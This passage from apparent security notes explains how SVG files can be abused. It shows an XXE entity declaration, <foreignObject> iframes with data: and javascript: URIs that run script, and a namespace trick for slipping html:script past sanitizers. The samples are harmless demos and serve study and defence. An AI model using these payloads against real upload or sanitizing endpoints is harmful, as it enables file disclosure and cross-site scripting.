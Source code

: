 Because SVG is XML, it can also have XXEs:

``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd" [
  <!-- an internal subset can be embedded here -->
  <!ENTITY xxe SYSTEM "https://example.com/foo.txt">
]>
<svg width="100%" height="100%" viewBox="0 0 100 100"
     xmlns="http://www.w3.org/2000/svg">
  <text x="20" y="35">My &xxe;</text>
</svg>
```

#### `<foreignObject>`

The `<foreignObject>` tag is insane. It can be used to include arbitrary (X)HTML in an SVG.

For example, to include an iframe:

``` xml
<svg width="500" height="500"
  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <circle cx="50" cy="50" r="45" fill="green"
          id="foo"/>

  <foreignObject width="500" height="500">
    <iframe xmlns="http://www.w3.org/1999/xhtml" src="http://example.com/"/>
  </foreignObject>
</svg>
```

If you don't have network access (e.g. sandbox) you can put a data URI or a javascript uri as the target of the iframe:

``` xml
<svg width="500" height="500"
  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <circle cx="50" cy="50" r="45" fill="green"
          id="foo"/>

  <foreignObject width="500" height="500">
     <iframe xmlns="http://www.w3.org/1999/xhtml" src="data:text/html,&lt;body&gt;&lt;script&gt;document.body.style.background=&quot;red&quot;&lt;/script&gt;hi&lt;/body&gt;" width="400" height="250"/>
k   <iframe xmlns="http://www.w3.org/1999/xhtml" src="javascript:document.write('hi');" width="400" height="250"/>
  </foreignObject>
</svg>
```

If you haven't had enough SVGs, you can also include more SVGs via the `<object>` or `<embed>` tags. I think probably it's theoretically possible to put Flash in there too.

Note that also because you're in a different XML namespace, anything that stripped only `svg:script` might not have stripped `html:script` (or similar for attributes).
